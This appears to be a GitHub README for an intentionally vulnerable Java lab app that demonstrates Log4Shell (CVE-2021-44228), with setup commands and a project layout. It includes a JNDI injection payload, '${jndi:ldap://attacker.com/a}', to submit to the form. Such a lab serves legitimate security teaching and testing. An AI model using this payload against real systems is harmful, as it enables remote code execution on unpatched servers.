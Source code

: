 # CVE-2021-44228 Log4jShell WebApp

This is a minimal Java web application vulnerable to **Log4Shell (CVE-2021-44228)**, built with:

- Java + Jetty (embedded)
- Log4j 2.14.1 (vulnerable)
- LDAP-server voor JNDI-exploits
- Simple HTML form
- Java exploit payload ('Exploit.class')

---

## Quick Start

### Prerequisites:
- Debian/Ubuntu-based system
- Internet access
- Python 3

### Clone the repository:
```bash
git clone https://github.com/SanderSchepers1993/CyberSec25.git
cd CyberSec25
```

### Run the setup script:
```bash
chmod +x setup.sh
./setup.sh
```

Open your browser and visit:
[http://localhost:8080](http://localhost:8080)

---

## Test Payload (work in progress)

Submit the following payload to the form:
```text
${jndi:ldap://attacker.com/a}
```
This will be **logged by Log4j**, potentially triggering the Log4Shell exploit **if you have a rogue LDAP server running**.

---

## Project Structure
```
CyberSec25/
├── Exploit/
    └── Exploit.java/class
├── ldap/
    └── LDAP-SERVER (JNDI redirector)
├── webapp/
    └── Kwetbare webapp (Jetty + log4j)
└── libs/
    └── Dependencies (via setup.sh)
├── scripts/
    ├── run_exploits.sh
    └── setup.sh
├── README.md
└── test_payload.txt # Payload voor formulierinvoer

```

---

## Disclaimer
This project is intentionally vulnerable. Use responsibly in **isolated test environments** only. The author takes no responsibility for misuse.

